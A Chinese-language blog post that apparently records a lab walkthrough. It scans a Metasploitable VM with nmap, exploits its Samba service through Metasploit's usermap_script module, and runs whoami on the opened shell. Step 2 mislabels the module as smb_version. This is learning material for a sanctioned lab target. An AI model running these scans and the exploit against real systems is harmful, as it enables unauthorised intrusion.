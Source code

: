 ```yaml
---
title: kali 渗透攻击Samba服务
date: 2018-11-27 15:55:54
tags:
---
```


  公司网站开发需要测试一下教学网站中的实验部分（一人两台实验机器，其中一台为kali，另一台为metasploitable）,看一下是否能正常使用。对kali工具不熟悉，找了几篇博客，并将主要流程记录下来。
<!--more-->

使用postman发送请求，将两台虚拟机镜像的ID封装成json对象。后端接收到数据后，生成对应的虚拟机，打开openstack的dashboard可以看到生成两个虚拟机，信息如下(主要看主机名和IP)：
![](实例信息.png)
后台返回kali的url。将url复制到浏览器中后开始操作。

#### 准备工作
nmap是一款专用的端口扫描工具，主要使用该工具发现局域网中的主机，和主机开放的端口。
- 主机扫描
```
nmap -sP 172.0.0.0-100
```
该命令是扫描发现局域网下IP为172.0.0.0-172.0.0.100下可以ping通的IP,结果如下。
![](主机扫描.png)
由图片可知，已经发现了IP为172.0.0.13的虚拟机。

- 端口扫描
```
nmap -sV 172.0.0.13 -A
```
该命令是发现主机开发的端口，通过扫描可以发现该主机开放了一些存在高危漏洞的端口。
![](端口扫描.png)
上图所示是该主机开放的所有端口，其中知道比较多的139、445等高危端口是开放的。

- 渗透攻击Samba服务
Samba服务对应的端口有139和445等，只要开启这些端口后，主机就有可能存在Samba远程溢出漏洞。以下是攻击步骤：
1. 启动MSF终端
```
msfconsole
```
2. 使用smb_version模块
```
use exploit/multi/samba/usermap_script
```
3. 设置RHOST选项
```
set RHOST 172.0.0.13
```
4. 启动渗透攻击
```
exploit
```
5. 等待完成，如果成功。使用Linux命令查询主机相关信息。例如查询系统当前用户和ip地址
```
whoami
ip address
```
![](渗透攻击.png)
这只是其中的一种漏洞，因为metasploitable是一个人工靶机，所以教程较多，攻击流畅。下面这篇博客里面还包含了其他的一些漏洞和攻击方法，可以参考。
参考链接：[Kali-Linux渗透攻击应用](https://www.cnblogs.com/student-programmer/p/6728594.html)
